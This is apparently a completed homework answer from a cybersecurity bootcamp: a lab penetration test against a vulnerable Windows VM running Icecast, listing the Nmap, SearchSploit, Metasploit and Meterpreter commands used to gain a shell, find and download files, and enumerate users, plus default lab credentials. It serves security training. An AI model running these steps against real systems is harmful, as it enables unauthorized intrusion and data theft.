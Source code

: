 ## Homework: Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.

- The CEO claims to have passwords that are long and complex and therefore unhackable.

- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings `recipe` and `seceretfile`.

- The deliverable for this engagement will be in the form of a report labeled `Report.docx`.

#### Setup 

- Before you begin, we'll need to start the Icecast server to emulate the CEO's computer. 
  - Log onto the DVW10 machine (credentials `IEUser:Passw0rd!`) and wait for the Icecast application to popup.
  - Then click `Start Server`. 

#### Reminders

- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.
 
- If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.
 
#### Scope
 
- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.
 
- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited. 
 
- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.
 
- Since you've already been provided access to the network, OSINT won't be necessary.
 
#### Lab Environment
 
For this week's homework, please use the following VM setup:
 
- Attacking machine: Kali Linux `root:toor`
- Target machine: DVW10 `IEUser:Passw0rd!`

**NOTE**: You will need to login to the **DVW10** VM and start the `icecast` service prior to beginning this activity using the following procedure:

- After logging into DVW10, type "icecast" in the Cortana search box and hit **Enter**.
- The icecast application will launch.
- Click on **Start Server**.
- You are now ready to being the activity.

#### Deliverable

Once you complete this assignment, submit your findings in the following document: 

- [Report.docx](Resources/Report.docx)
 
### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.
 
1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: nmap -sV 192.168.0.20 
 
 ![picture](images/01.PNG) 
 
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
 
   - Run the SearchSploit commands to show available Icecast exploits.
  
     > Answer: searchsploit icecast

![picture](images/02.PNG) 

![picture](images/searchsploit-t.PNG) 

3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
     > Answer: msfconsole 
 

![picture](images/msfconsole.PNG) 
 
4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > Answer: search icecast 
 

   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer: use 0
     <br>
 
 ![picture](images/search.PNG) 
 
5. Set the `RHOST` to the target machine.
 
   - Run the command that sets the `RHOST`:
      
     > Answer: set RHOST 192.168.0.20



 
6. Run the Icecast exploit.
 
   - Run the command that runs the Icecast exploit.
      
     > Answer: run

![picture](images/03.PNG) 

  
 
   - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > Answer: `search -f *secret*.txt`


   ![picture](images/04.PNG)    


  
 7. You should now have a Meterpreter session open.
 
    - Run the command to performs a search for the `recipe.txt` on the target:

      > Answer: `search -f *recipe*.txt `

 
![picture](images/recipe.PNG)    
 
 
 
 
    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:


      > Answer: download c:\Users\IEuser\Documents\Drinks.recipe.txt
 

8. You can also use Meterpreter's local exploit suggester to find possible exploits.

 
   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

 
#### Bonus
  
 
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: run post/windows/gather/enum_logged_on_users 

  ![picture](images/05.PNG)    
 
     
B. Open a Meterpreter shell. 
 
  > Answer: shell
  (in their system or computer now.)

![picture](images/shell.PNG)  


 
C. Run the command that displays the target's computer system information:

   > Answer: exit out of their  machine, go EXIT back into meterpreter and run: sysinfo

![picture](images/06.PNG)  


---

&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.
